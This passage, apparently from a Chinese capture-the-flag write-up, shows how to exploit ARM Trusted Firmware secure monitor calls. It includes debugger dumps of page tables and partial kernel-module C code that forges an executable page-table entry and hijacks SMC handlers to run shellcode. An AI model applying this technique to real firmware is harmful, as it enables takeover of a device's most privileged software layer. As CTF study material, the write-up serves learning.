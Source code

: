 ```c

#define NON_GLOBAL		(U(1) << 9)
#define ACCESS_FLAG		(U(1) << 8)
#define NSH			(U(0x0) << 6)
#define OSH			(U(0x2) << 6)
#define ISH			(U(0x3) << 6)
```

为了避免复杂的计算找到页表位置，我们可以调用`STORAGE_SVC_RD`在`0xE0A6678`（`find_xlat_table_entry`返回处）下断点查看，返回值`x0`即页表项所在地址。这里调用`    arm_smccc_smc(STORAGE_SVC_RD, 0xf, 0xE0DB000, 0x60, 0, 0, 0, 0, &res);`得到`0xE0DB000`的页表项地址为`0xe0d96d8`，最大映射到`0xe0dd000`这一页，向上回溯可以看到`0xe0a0000 ~ 0xe0aafff`为可执行页：

```bash
pwndbg> x /32gx 0xe0d96d8
0xe0d96d8:	0x004000000e0db743	0x004000000e0dc743
0xe0d96e8:	0x004000000e0dd743	0x0000000000000000
0xe0d96f8:	0x0000000000000000	0x0000000000000000
0xe0d9708:	0x0000000000000000	0x0000000000000000
...
pwndbg> x /32gx 0xe0d96f0-0x200
0xe0d94f0:	0x0000000000000000	0x0000000000000000
0xe0d9500:	0x000000000e0a07c3	0x000000000e0a17c3
0xe0d9510:	0x000000000e0a27c3	0x000000000e0a37c3
0xe0d9520:	0x000000000e0a47c3	0x000000000e0a57c3
0xe0d9530:	0x000000000e0a67c3	0x000000000e0a77c3
0xe0d9540:	0x000000000e0a87c3	0x000000000e0a97c3
0xe0d9550:	0x000000000e0aa7c3	0x004000000e0ab7c3
0xe0d9560:	0x004000000e0ac7c3	0x004000000e0ad743
...
```

有两个选项，一是将可执行页重复映射为可写，二是将可写页重复映射为可执行。这里选择将`0xe0db000`重复映射到`0xe0de000`并添加可执行权限，表项写入`0xe0d96f0`处，之后将官方README给的shellcode改吧改吧，编译后写入`0xe0db000`，再跳转到`0xe0de000`执行即可：

```c
#define LOG_SVC_ABWR       LOG_SMC_FID(2)
#define LOG_SVC_SC         LOG_SMC_FID(3)

#define BL31_NS_MEM       0x423dc000
#define MAX_SIZE_ADDR     0xE0D70B0
#define MEMCPY_ADDR       0xE0A3160

#define FAKE_DESC_ADDR    0xe0d96f0
#define FAKE_DESC         0xe0db7c3
#define SC_RW_ADDR        0xe0db000
#define SC_EXEC_ADDR      0xe0de000

static int step2_open(struct inode *inode, struct file *file) {
    pr_info("Step2: Device opened\n");

    struct arm_smccc_res res;

    if (!ns_mem)
        ns_mem = phys_to_virt(BL31_NS_MEM);
    memset(ns_mem, 0, 0x40);
    ns_mem[8] = 2;
    ns_mem[9] = MEMCPY_ADDR;
    ns_mem[10] = 3;
    ns_mem[11] = SC_EXEC_ADDR; // 伪造的可执行页地址
    arm_smccc_smc(STORAGE_SVC_WR, 0xf, BL31_NS_MEM, 0x60, 0, 0, 0, 0, &res); // 将memcpy和shellcode地址分别写入LOG_SVC的两个handler，调用号任意

    //arm_smccc_smc(STORAGE_SVC_RD, 0xf, SC_RW_ADDR, 0x60, 0, 0, 0, 0, &res); // 动态调试找页表项位置
    ns_mem[0] = FAKE_DESC;
    arm_smccc_smc(LOG_SVC_ABWR, FAKE_DESC_ADDR, BL31_NS_MEM, 0x8, 0, 0, 0, 0, &res); // 写入伪造的页表项
```